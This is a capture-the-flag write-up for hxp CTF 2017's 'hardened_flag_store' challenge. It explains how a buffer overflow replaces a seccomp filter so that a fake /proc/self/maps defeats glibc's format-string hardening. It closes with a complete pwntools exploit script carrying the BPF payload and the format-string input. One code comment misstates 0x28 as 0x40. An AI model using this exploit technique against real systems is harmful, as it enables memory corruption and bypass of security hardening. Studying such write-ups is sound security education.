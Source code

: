 # Writeup for hardened_flag_store (pwn, 300 + 20 pts, 15 solves), hxp CTF 2017

Description:

> finally a secure way to store my precious flogs
>
> Download: [2c020cca2c607610b33c8490653a6a420a86d89787278a7c72340833482ff4fd.tar.xz](https://2017.ctf.link/assets/files/2c020cca2c607610b33c8490653a6a420a86d89787278a7c72340833482ff4fd.tar.xz)
>
> Connection: nc 35.198.105.104 10000

## TL;DR

- Using a buffer overflow, we load our own seccomp filter

- With a specific seccomp filter, we bypass glibc's hardening techniques

- We overwrite the secret key stored in memory and get the flag

## The Task

The target binary reads our input, installs a seccomp filter, and compares our input with a secret key. If the keys match, it opens and prints the flag; if not, it prints our input to stderr and jumps back to reading our input.

## The Bug

There's an obvious buffer overflow: we can input up to 96 bytes, which are read into a buffer of 32 bytes. Right after that buffer the seccomp filter is stored, so we can overwrite the filter and thus replace the first 8 seccomp instructions.

Apart from that, there's a format string vulnerability: when we supply an incorrect key, our input is used as a format string to print to stderr; however, the binary is compiled with `_FORTIFY_SOURCE=2` and we cannot use `%n` without messing with glibc.

## The Exploit

When we use a `%n` in a format string, glibc reads `/proc/self/maps` to check if the format string is in read-only memory. If that fails, it complains `*** %n in writable segment detected ***` and `abort`s:

```
open("/proc/self/maps", O_RDONLY|O_CLOEXEC) = 3
fstat(3, {st_mode=S_IFREG|0444, st_size=0, ...}) = 0
read(3, "56134e97a000-56134e97c000 r-xp 0"..., 1024) = 1024
read(3, "                  /lib/x86_64-li"..., 1024) = 651
close(3)                                = 0
open("/dev/tty", O_RDWR|O_NOCTTY|O_NONBLOCK) = 3
writev(3, [{iov_base="*** %n in writable segment detec"..., iov_len=40}], 1) = 40
```

But we control the seccomp filter! Using the `ret ERRNO(0)` instruction, we can force any call to `open()` to return `0`, the file descriptor of stdin; libc then goes ahead and reads `/proc/self/maps` from standard input, so we can supply a fake memory map claiming that our input buffer is read-only.

The format string payload `%20c%20c%n` will write 0x00000028 to where the secret key is stored and thus overwrite it with "(".

One problem remains: when the binary opens the flag file, our seccomp filter makes the syscall return 0 again, and the binary reads the flag from stdin. To solve this, we filter by the first argument of the open syscall: if it points to the flag filename, we allow the call.

Putting everything together, we end up with the following exploit:

```python
from pwn import *

def bpf(op, jt, jf, k):
    return p16(op) + p8(jt) + p8(jf) + p32(k)

if __name__ == '__main__':

    r = remote('35.198.105.104', 10000)

    ld_1 = bpf(0x20, 0, 0, 0)
    jeq_1 = bpf(0x15, 4, 0, 3)
    jeq_2 = bpf(0x15, 0, 4, 2)
    ld_2 = bpf(0x20, 0, 0, 16)
    and_1 = bpf(0x54, 0, 0, 0xff)
    jeq_3 = bpf(0x15, 1, 0, 0x64)
    ret_errno = bpf(6, 0, 0, 0x00050000)
    ret_allow = bpf(6, 0, 0, 0x7fff0000)

    bpf_payload = ld_1 + jeq_1 + jeq_2 + ld_2 + and_1 + jeq_3 + ret_errno + ret_allow

    info("inject custom seccomp")
    r.send('A' * 32 + bpf_payload)

    info("trigger %n check")
    r.sendlineafter('Wrong secret :/\n', '%20c%20c%n')

    info("fake r-x memory")
    r.sendlineafter('Wrong secret :/\n', '000000000000-7fffffffffff r-xp 00000000 00:00 0                          /usr/bin/whatever')

    # we overwrote the secret key with 0x40 == '('
    info("enter secret key")
    r.sendline('(')

    r.recvuntil('hxp{')
    flag = 'hxp{' + r.recvuntil('}')
    info("flag: %s", flag)
```

Flag: `hxp{d0n7_w0rry_glibc_1_571ll_l0v3_y0u}`
